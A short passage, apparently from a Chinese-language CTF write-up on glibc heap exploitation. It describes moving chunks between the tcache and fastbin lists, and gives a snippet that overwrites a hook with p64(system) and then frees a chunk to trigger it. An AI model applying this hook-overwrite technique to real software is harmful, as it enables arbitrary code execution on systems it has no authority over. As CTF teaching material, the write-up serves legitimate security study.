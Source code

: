 把 hook 写上去 (5，6 从 tcachebin 里面取完后，7 遍历 fastbin，链入 tcachebin 再取)

[![](assets/1708654729-402d94eb099f2d18a48a88d8ea13c8cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104156-c712f332-d062-1.png)

```bash
add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
```

修改完之后 free

[![](assets/1708654729-18383b9492acfe24f41f1924077b8fa1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104209-ceeb3ccc-d062-1.png)

### exp
